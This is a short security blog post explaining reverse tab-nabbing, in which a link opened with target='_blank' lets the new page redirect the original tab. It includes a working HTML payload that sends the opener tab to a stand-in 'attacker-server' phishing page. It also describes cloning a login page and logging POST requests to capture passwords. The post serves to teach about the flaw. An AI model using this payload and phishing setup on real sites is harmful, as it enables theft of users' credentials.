 [back](/)

### Tab-nabbing attack to stealing creds

Imagine that clicking on the received link from a trusted user is normal =)

Despite all the irony, this behavior is quite typical for ordinary users who do not think about how safe the code of web applications that are open in their browser, in numerous tabs, is written.
This is about **Tab-nabbing** attack. The essence of which is to open a new tab in the victim's browser, the link to which is indicated with html tag **target = "_blank"** attribute, but without **rel = "noopener nofollow"** tag.

```
<a href="https://anylink.com target="_blank"> GoToAnyLink </a>
```

In this case «something.html» page is opened in the victim's browser with the code:

```
<html>
<script>
if (window.opener) window.opener.parent.location.replace ('http://attacker-server/index.html');
if (window.parent! = window) window.parent.location.replace ('http://attacker-server/index.html');
</script>

Hi dude =)<br>
Check my notes

</html>
```

![Image](/img/tabnabbing/1.png)

Any vulnerable navigation to a new tab in the browser where the code is delimited by the tag **target ="_blank "** will be redirected to the page **http://attacker-server/index.html**.

![Image](/img/tabnabbing/2.png)

At the same time, the attacker can clone the authorization page to the vulnerable page using «httrack» or any similar utility. In this case, unnoticed by the victim, a transition will be made to the tab with the vulnerable site. As a rule, in such cases, the victim enters his username and password, assuming that the timed out session has expired. As a result, the attacker can easily obtain the victim's login and password using a web server with the ability to log POST requests.

![Image](/img/tabnabbing/3.png)

Thus, the attacker receives a username and password from the victim with a minimum set of tools and labor costs. In total for the attack you need: a web server with the ability to log POST requests, a phishing web page for authorization and a payload in the form of an html file

![Image](/img/tabnabbing/4.png)

That's all friends, watch the tabs in the browser and the links you click on =)

Links:
+ [https://hackerone.com](https://hackerone.com/reports/179568)
+ [How to dump post request with python](https://georgik.rocks/how-to-dump-post-request-with-python)


<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)